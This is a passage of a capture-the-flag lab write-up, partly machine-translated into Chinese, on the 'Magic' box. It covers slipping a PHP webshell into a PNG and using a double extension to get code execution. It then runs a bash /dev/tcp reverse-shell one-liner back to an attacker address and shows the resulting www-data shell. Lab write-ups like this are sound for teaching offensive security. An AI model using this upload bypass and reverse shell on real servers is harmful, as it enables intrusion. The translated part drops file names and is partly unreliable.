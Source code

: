     2020/04/18 15:14:01 Finished
    ===============================================================
    

## 壳牌作为万维数据

### 上传网络外壳

#### 旁路过滤器

为了检查上传时的过滤器，我喜欢找到在Burp中上传合法图像文件的POST请求，并将其发送到中继器。在确保它成功提交后，我将开始更改内容以查看其中断位置。网站通常对此类上传进行三项检查：

*   文件扩展名阻止/允许列表;
*   文件的 MIMETYPE 或[魔术字节](https://en.wikipedia.org/wiki/List_of_file_signatures)必须与允许的类型匹配;
*   `Content-Type`图像上的标题必须是图像。

一些测试表明，上传时至少应用了两个过滤器：文件名必须以 、 或 结尾，并且图像的 mimetype 传递。`.jpg``.jpeg``.png`

通过将PHP代码放在有效图像的中间，可以绕过第二个过滤器。

我将创建我的图像的副本并将其命名为 。然后，我将打开它，并在文件中间添加一个简单的PHP网页外壳：`avatar-mod.png``vim`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200419140056407.png) 

该文件以PNG的合法魔术字节开头，但我已将网络外壳添加到文件的中间。此文件上传没有问题。

#### 获得执行力

这里仍然存在一个问题。我需要一些方法来让网站像PHP一样对待这个文件（从而执行它），而不是像图像一样。通常，这是通过扩展完成的。如果网站阻止说这是不允许的，我会尝试像，和。但是，由于错误消息表明存在三个图像文件扩展名的白名单，因此这似乎不太可能。`.php``.php5``.phtml`

One thing worth trying is putting in the file name, just not at the end. This won’t execute on a well configured server, but there are misconfigurations that might allow it.`.php`

I’ll create a copy of just the plain image file and name it . When I upload that, it is broken on the main page, and when I view it directly in , it shows the text of the file, not the image:`test.php.png``/images/uploads`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200419140552707.png) 

I’ll look at why the webserver is treating that file that way in Beyond Root, but seeing this handled as PHP and not an image is enough for me to move forward. I’ll rename my image with a PHP webshell in it to and upload it. When I visit , I can see the execution in the middle of the page:`avatar.php.png``http://10.10.10.185/images/uploads/avatar.php.png?cmd=id`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200419140725925.png) 

### Shell

To get a shell from here, I just need to pass in a reverse shell. Visiting works:`http://10.10.10.185/images/uploads/avatar.php.png?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.20/443 0>%261'`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.185.
    Ncat: Connection from 10.10.10.185:53650.
    bash: cannot set terminal process group (1140): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/Magic/images/uploads$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    